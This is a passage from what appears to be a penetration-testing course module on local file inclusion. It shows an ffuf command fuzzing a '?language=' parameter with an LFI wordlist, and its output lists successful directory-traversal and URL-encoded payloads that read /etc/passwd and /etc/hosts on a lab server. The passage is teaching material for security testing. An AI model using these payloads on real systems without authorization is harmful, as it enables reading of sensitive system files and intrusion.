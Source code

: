 **Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

---

## LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

```shell-session
smoothment@htb[/htb]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.

---